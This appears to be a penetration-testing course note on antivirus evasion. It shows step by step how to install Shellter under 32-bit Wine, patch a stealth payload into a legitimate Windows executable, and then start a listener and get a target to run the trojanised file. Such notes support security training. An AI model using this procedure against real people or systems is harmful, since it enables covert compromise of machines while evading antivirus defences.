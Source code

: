 # Obfuscation

## AV Evasion With Shellter

* https://www.shellterproject.com/
```
sudo apt-get install shellter -y
```
* Windows exe, so you need wine to run Shellter on Linux
* Sheller only supports x86, so you need the 32 bit version of Wine
```
sudo dpkg --add-architecture i386
```
```
sudo apt-get install wine32
```
```
cd /usr/share/windows-resources/shellter
```


Get a legit exe to put malicious payload into:
```
cd /usr/share/windows-binaries/
```

Execute .exe on Linux:
```
sudo wine shellter.exe
```
```
A
```
```
[PATCH-TO-LEGIT-EXE]
```
Enable Stealth Mode? (exe runs in background? Y or N)
```
Y
```
Listed or Custom Payload?
```
```
L
```
[PAYLOAD-INDEX]
```
```
[IP-ADDRESS]
```
```
[LPORT]
```
Enter to continue...

*The legit exe has been replaced by malicious exe*

* Now set up a listener and get target to run the exe


***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2